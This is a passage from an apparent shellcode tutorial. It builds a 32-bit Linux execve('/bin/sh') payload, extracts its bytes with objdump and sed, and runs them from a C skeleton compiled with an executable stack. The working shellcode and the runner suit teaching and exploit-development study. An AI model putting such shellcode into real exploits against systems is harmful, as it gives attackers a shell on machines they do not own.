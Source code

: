 Now, let's assemble it and check if it properly works and does not contain any null bytes:  
```bash
nasm -f elf32 -o example3.o example3.asm
ld -m elf_i386 -o example3 example3.o
./example3
objdump -M intel -d example3
```

![execve shellcode 2](./images/12/2021-10-11_13-30.png){width="80%"}    

Then, extract byte code via some bash hacking and `objdump`:
```bash
objdump -d ./example3|grep '[0-9a-f]:'|grep -v 'file'|cut \
-f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '| \
sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s | \
sed 's/^/"/'|sed 's/$/"/g'
```

![execve shellcode 2.1](./images/12/2021-10-11_13-35.png){width="80%"}    

So, our shellcode is:       
```cpp
"\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x50\x68\x6e
\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89
\xe3\xb0\x0b\xcd\x80"
```

Then, replace the code at the top (`run.c`) with:     
```cpp
/*
run.c - a small skeleton program to run shellcode
*/
// bytecode here
char code[] = "\x31\xc0\x31\xdb\x31\xc9\x31"
"\xd2\x50\x68\x6e\x2f\x73\x68\x68"
"\x2f\x2f\x62\x69\x89\xe3\xb0\x0b\xcd\x80";

int main(int argc, char **argv) {
  int (*func)();             // function pointer
  func = (int (*)()) code;   // func points to our shellcode
  (int)(*func)();            // execute a function code[]
  // if our program returned 0 instead of 1,
  // so our shellcode worked
  return 1;
}
```

Compile and run:
```bash
gcc -z execstack -m32 -o run run.c
./run
```

![shellcode example3 check](./images/12/2021-10-11_13-51.png){width="80%"}    
